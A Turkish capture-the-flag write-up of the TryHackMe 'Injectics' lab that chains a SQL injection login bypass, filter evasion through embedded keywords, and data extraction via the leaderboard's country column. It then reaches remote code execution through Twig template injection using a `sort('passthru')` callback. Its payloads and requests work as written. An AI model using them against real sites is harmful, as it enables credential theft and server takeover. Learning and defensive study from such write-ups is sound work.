








> TryHackMe · Web Exploitation / SQL Injection · Medium
{: .prompt-info }

Bir olimpiyat lider tablosu, tek harfli bir operatör (`||`) ile atlatılan bir login formuna sahip. Ama gerçek eğlence ondan sonra başlıyor: server-side filtre `SELECT`, `OR`, `AND` gibi kelimeleri tek geçişte (non-recursive) siliyor — yani yasaklı kelimeyi kendi içine gömerek filtrenin kendisini silah olarak kullanmak mümkün. Sızdırılan veri klasik bir UNION SELECT çıktısı olarak değil, **leaderboard'daki bir ülke ismi** olarak geri geliyor. Sonrasında profil sayfası, Twig template engine üzerinden sanitize edilmeden render ediliyor; `system()` kapalı olsa da `sort()` filter'ının callback parametresi arbitrary bir PHP fonksiyonunu (`passthru`) tetiklemeye yetiyor.

| Hedef | Zorluk | Kategori |
|---|---|---|
| Injectics (Apache/PHP + MySQL) | Medium | Web Exploitation / SQL Injection |

**Zincir:** Gobuster ile dizin keşfi (`login.php`, `edit_leaderboard.php`, `flags/`) → client + server-side filtrelenen login formunu Burp Repeater ile `' || 1=1;-- -` payload'ıyla atlatmak → `edit_leaderboard.php`'nin `gold` parametresine gömülü bir subquery ile `country` kolonunu yazdırıp veriyi leaderboard'da görünür kılmak → non-recursive filtre bypass (`seSELECTlect`, `infoORrmation_schema`, `passwoORrd`) ile `information_schema` ve custom tablodan email:password çekmek → gerçek `superadmin` e-postasıyla login bypass'ını tekrarlayıp admin oturumu almak, Flag 1 → Profile'daki First Name alanında Twig SSTI (`{{8*8}}`) → `system()` kapalıyken `sort('passthru')` trick'iyle RCE → `find`/`ls` ile flag dosyasını bulup `cat` ile Flag 2

## 01 — Keşif

```console
$ gobuster dir -u http://<target> -w /usr/share/wordlists/dirb/common.txt -x php,txt,html,zip -t 50

conn.php             (Status: 200)
dashboard.php        (Status: 302) [--> dashboard.php]
flags                (Status: 301) [--> /flags/]
functions.php        (Status: 200)
login.php            (Status: 200)
phpmyadmin           (Status: 301) [--> /phpmyadmin/]
```

`dashboard.php`'nin auth olmadan 302 dönmesi bir session kontrolü olduğunu, `flags/` dizininin de ikinci flag'in nerede duracağını gösteriyordu.

## 02 — Login formu: client + server-side filtre bypass

Login formu `'`, `"`, `OR`, `AND`, `UNION`, `SELECT` gibi anahtar kelimeleri hem client-side JS hem server-side kontrolle filtreliyordu.



Client-side kontrolü atlatmak için form normal şekilde bir kere gönderilip Burp'te yakalandı, sonra Repeater'da body elle değiştirildi:

```
POST /functions.php
username=test%40outlook.com&password=' || 1=1;-- -&function=login
```

`OR` büyük harfle filtrelendiği için mantıksal `||` operatörü kullanıldı. Sunucu cevabı:

```json
{"status":"success","message":"Login successful","is_admin":"true",
 "first_name":"dev","last_name":"dev","redirect_link":"dashboard.php?isadmin=false"}
```

Payload query'yi `password='' || 1=1-- ...` haline getirdiği için sorgu koşulsuz true döndü ve session, tablodaki **ilk eşleşen satıra** (`dev` kullanıcısı) bağlandı.

## 03 — Leaderboard'daki edit endpoint'i

```console
$ curl http://<target>/dashboard.php   # dev olarak
```



Her satırın **Edit** aksiyonu `edit_leaderboard.php?rank=X&country=Y` sayfasını açıyor, orada gold/silver/bronze güncellenebiliyordu:



Form submit isteği:

```
POST /edit_leaderboard.php
rank=3&country=&gold=555&silver=21&bronze=12345
```

`gold` parametresi, backend'de muhtemelen `UPDATE leaderboard SET gold=$gold, ... WHERE rank=$rank` şeklinde escape edilmeden query'ye giriyordu.

## 04 — Filtre bypass ve veri sızdırma

Sunucu `SELECT`, `OR`, `AND`, `password` gibi kelimeleri **tek geçişte** (non-recursive) silen bir blacklist kullanıyordu. Bu, yasaklı kelimeyi kendi içine gömerek atlatılabiliyordu — filtre kendi enjekte ettiğin fazlalığı silince geriye tam olarak istediğin kelime kalıyordu:

| Yazılan | Filtre `OR`/`SELECT` sildikten sonra |
|---|---|
| `seSELECTlect` | `select` |
| `infoORrmation_schema` | `information_schema` |
| `passwoORrd` | `password` |

`gold` parametresine, `country` kolonunu bir subquery sonucuyla ezen bir payload enjekte edildi — böylece exfiltrate edilen veri **leaderboard tablosunda görünür** oldu, klasik blind/UNION teknikleri gerekmeden:

```
POST /edit_leaderboard.php
rank=3&country=&gold=1,country=(seSELECTlect group_concat(schema_name) from infoORrmation_schema.schemata)&silver=21&bronze=12345
```


`bac_test` custom database'i bulununca aynı teknik `users` tablosuna yöneltildi:

```
gold=1,country=(seSELECTlect group_concat(email,':',passwoORrd) from bac_test.users)
```



```
dev@injectics.thm:2342sdsfwf2wr2rf
superadmin@injectics.thm:34234vsdfwr2r2wf2r2
```

> Değerler bariz şekilde plaintext görünüyordu (hash değil). Bu, DB dump'ından çıkan her "şifre benzeri" string'i önce **doğrudan login'de denemenin**, hash kırmaya başlamadan önce zaman kazandırdığını gösteriyor.
{: .prompt-tip }

## 05 — Gerçek admin hesabına login, Flag 1

Adım 2'deki bypass rastgele bir email ile denendiği için ilk eşleşen satıra (`dev`) düşmüştü. Query yapısı `email='X' AND password='Y'` olduğu için, `Y`'yi bypass edip `X`'i gerçek admin e-postasıyla değiştirmek doğrudan o hesaba login olmayı sağladı:

```
POST /functions.php
username=superadmin@injectics.thm&password=' || 1=1;-- -&function=login
```



## 06 — Profile üzerinden Twig SSTI

Menüde çıkan **Profile** linki, First Name alanını güncelleyip bunu `dashboard.php`'de "Welcome, {first_name}!" olarak sanitize etmeden render ediyordu.

Test payload'ı First Name alanına yazıldı:

```
{{8*8}}
```

Dashboard'a dönüldüğünde:



`64` çıktısı, template'in kullanıcı girdisini Twig ifadesi olarak işlediğini doğruladı.

## 07 — `system()` kapalı: `sort('passthru')` ile RCE

Doğrudan `system()`/`exec()` çağrısı denendiğinde disabled olduğu görüldü. Twig'de `sort` filter'ı bir array'i, verilen bir callback fonksiyonuna göre sıralar; bu callback attacker-controlled bir string olabildiği için, iki elemanlı bir array (`['id', ""]`) ile `passthru()`'yu — `passthru(cmd, "")` imzasına denk gelecek şekilde — çağırmak mümkün oldu:

```
{{['id',""]|sort('passthru')}}
```



> `sort`/`map`/`filter` gibi Twig filter'larının callback parametresi, sistemde tanımlı **herhangi bir** PHP fonksiyonunu isim olarak kabul ediyorsa, `system()` disable edilmiş olması RCE'yi engellemiyor. `disable_functions` listesi tek başına yeterli bir savunma değil.
{: .prompt-warning }

## 08 — Flag dosyasını bulmak, Flag 2

İlk denemede `find` komutu çift tırnak içeren bir argümanla enjekte edildi:

```
{{['find / -iname \"*flag*\" 2>/dev/null',""]|sort('passthru')}}
```

Bu, First Name input'unun HTML `value` attribute'unu kırdı ve komut hiç çalışmadan payload'ın kuyruğu sayfada literal metin olarak sızdı — tırnaklar form encoding ile çakıştı. Basitleştirilmiş, tırnaksız hal sorunsuz çalıştı:

```
{{['find / -iname flag* 2>/dev/null',""]|sort('passthru')}}
```

Çıktıda `/var/www/html/flags` dizini görüldü. `ls -la` ile içeriği listelendi:

```
{{['ls -la /var/www/html/flags 2>/dev/null',""]|sort('passthru')}}
```

```
-rw-rw-r-- 1 ubuntu ubuntu 38 Jul 18 2024 5d8af1dc14503c7e4bdc8e51a3469f48.txt
```

Ve dosya okundu:

```
{{['cat /var/www/html/flags/5d8af1dc14503c7e4bdc8e51a3469f48.txt',""]|sort('passthru')}}
```



## Özet — Öğrenilen teknikler

- **Client-side JS filtreleme hiçbir şey engellemiyor.** Formu Burp Repeater'a alıp isteği doğrudan sunucuya atmak filtreyi sıfırlıyor.
- **Non-recursive blacklist filtreleri, yasaklı kelimeyi kendi içine gömerek atlatılabilir.** Filtre kelimeyi bir kere silince, geriye tam istenen string kalıyor (`seSELECTlect` → `select`).
- **Exfiltrate edilen veri, ekranda zaten render edilen bir kolona yazdırılabiliyorsa** blind/UNION tekniklerine gerek kalmadan sonuç direkt görünür oluyor — burada `country` kolonu bu amaçla "hack'lendi".
- **DB'den çıkan plaintext görünümlü değerleri önce doğrudan login'de dene**, hash kırmaya geçmeden önce.
- **Twig gibi template engine'lerde `system()`'i disable etmek yeterli değil.** `sort`/`map`/`filter` filter'larının callback parametresi, whitelist'lenmemişse arbitrary fonksiyon çağırmaya (`passthru`, `exec`, ...) izin verebilir.
- **Form payload'larında gereksiz tırnak kullanmak encoding çakışmasına yol açabilir** — komutu tırnaksız yazılabilecek şekilde sadeleştirmek, HTML attribute'unu kırmadan çalışmayı garantiledi.

---

Kişisel TryHackMe lab notu — Injectics, eğitim/lab ortamı. Flag değerleri platform politikası gereği bu belgede paylaşılmamıştır.
